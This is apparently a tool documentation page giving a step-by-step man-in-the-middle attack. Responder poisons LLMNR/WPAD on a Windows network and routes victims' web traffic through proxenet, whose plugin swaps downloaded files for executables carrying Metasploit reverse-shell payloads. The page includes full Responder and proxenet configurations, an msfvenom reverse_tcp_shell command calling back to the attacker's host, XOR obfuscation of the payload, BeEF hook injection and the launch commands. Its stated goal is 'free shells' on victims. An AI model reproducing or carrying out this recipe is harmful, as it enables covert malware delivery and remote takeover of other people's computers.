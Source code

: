 # Proxenet-In-The-Middle attack #

`proxenet` can also be used to deliver automated payloads via a
Man-in-the-Middle attack. This can be done with the help of the awesome [Responder](https://github.com/SpiderLabs/Responder) tool, in two easy steps.


## Network setup ##

In this example, We will target Windows hosts on the network `192.168.56.0/24`. Our evil box will be
located at `192.168.56.1`.

Let's do this.


## Responder setup ##

We will use `Responder` to spoof NetBIOS packets and poison local network
Windows workstation WPAD configuration, and redirect traffic to our evil box. The configuration is
very simple, as we only need to use poisoning feature of `Responder`.

**_Note_**: I used _jrmdev_ version of `Responder` because it is way cleaner
that the master version from SpiderLabs, and has better support for WPAD and
proxy forwarding. You can clone it from GitHub:

```
$ git clone https://github.com/jrmdev/Responder.git
$ cd Responder && git checkout -b remotes/origin/responder-refactoring
```

We only want to use the LLMNR and WPAD functionalities, so we will disable all
the rest. Simply set it up with the following configuration:
```
[Responder Core]
SQL = Off
SMB = Off
Kerberos = Off
FTP = Off
POP = Off
SMTP = Off
IMAP = Off
HTTP = On
HTTPS = Off
DNS = Off
LDAP = Off
Challenge = 1122334455667788
Database = Responder.db
SessionLog = Responder-Session.log
PoisonersLog = Poisoners-Session.log
AnalyzeLog = Analyzer-Session.log
RespondTo =
RespondToName = WPAD
DontRespondTo =
DontRespondToName =

[HTTP Server]
Serve-Always = Off
Serve-Exe = Off
Serve-Html = Off
HtmlFilename = files/AccessDenied.html
ExeFilename = files/BindShell.exe
ExeDownloadName = ProxyClient.exe
WPADScript = function FindProxyForURL(url, host){ return 'PROXY 192.168.56.1:8008';} ; change this address to your situation
HTMLToInject = <h1>pwn</h1>

[HTTPS Server]
SSLCert = certs/responder.crt
SSLKey = certs/responder.key
```

And just run it to forward to our `proxenet` (which will be listening on
`192.168.56.1:8008` - see proxenet setup below).
```
sudo python2 Responder.py -v -I vboxnet0 -w
```

`Responder` will now poison all the requests to our `proxenet` process.

![nbt-poison](img/nbt-poison.png)


## proxenet setup ##

Create or edit the `proxenet` plugin configuration file, `$HOME/.proxenet.ini`
with the following sections.
```
[oPhishPoison]
; This should point to the payload to be inserted as the HTTP response.
; For example:
; msfvenom -p windows/reverse_tcp_shell -f raw -b '\x0d\x0a\x00\xff' -o mypayload LHOST=192.168.56.1 LPORT=4444
msfpayload   = %(home)s/tmp/my_payload

; Point to Python binary
python       = /usr/bin/python2.7

; Download https://gist.github.com/hugsy/18aa43255fd4d905a379#file-xor-payload-py
; and copy its path to this configuration script.
xor_payload  = %(home)s/code/xor-payload/xor-payload.py

; This should point to the HTML page to inject every time a user fetches
; any HTML page
html_inject_stub = %(home)s/tmp/injected_page.html
```
The `html_inject_stub` option can be used also to easily inject your BeEF hooks
too.

The plugin `oPhishPoison.py` (available in the `proxenet-plugins` GitHub
repository) will deal with the substitution of the traffic the way you want.
You can insert any Metasploit Framework payload or an HTA page. The choice is
yours!

Add the plugin `oPhishPoison.py` to the autoload directory of `proxenet` and
start it.
```
$ ln -sf proxenet-plugins/oPhishPoison.py proxenet-plugins/autoload/oPhishPoison.py
$ ./proxenet -b 192.168.56.1 -p 8008 -i -N
```

Adding the `-N` option disables the SSL interception and make it stealthier. The
`-i` option forces `proxenet` to use the Internet Explorer compatibility mode.

From the moment `proxenet` and `Responder` are configured and running, fake LLMNR
and WPAD responses will be sent to the victims. By default, the `oPhishPoison`
plugin will replace known binary content types (such as Office documents, ZIP
files, RAR archives, etc.) with PE executables containing your payloads.

When `Responder` poisons the LLMNR request for WPAD, it will redirect the
victim to fetch the PAC configuration from itself.
![responder-wpad](img/responder-wpad.png)

After that, **every** HTTP request from this victim will go through `proxenet`.
You will very soon see this kind of message appearing on your screen:
![proxenet-poison](img/proxenet-poison.png)

This indicates that the attack was successful. From now, just wait for the
shells ☺

## What's next?

Literally, nothing! The MitM will operate in a totally transparent way, that's
the beauty of it.

   1. The Windows hosts of the victims will get poisoned by `Responder` to point
   the WPAD NetBios name to our hosts.
   2. Browsers setup in "Auto-configuration" mode are vulnerable.
   3. Every HTTP request will go through `proxenet` and the response will be
   poisoned with whatever content you setup.
   4. Enjoy the free shells !


## Live demo

Click [here](https://vid.me/ntWe) for a live demo.
